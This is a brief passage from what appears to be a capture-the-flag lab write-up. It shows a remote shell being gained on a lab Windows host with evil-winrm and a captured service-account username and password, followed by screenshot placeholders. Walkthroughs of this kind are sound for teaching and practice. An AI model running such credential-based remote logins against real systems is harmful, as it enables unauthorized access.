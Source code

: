 With the gathered credential, got shell access using `evil-winrm`

```bash
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```
![[Pasted image 20240910205241.png]]
![[Pasted image 20240910210430.png]]
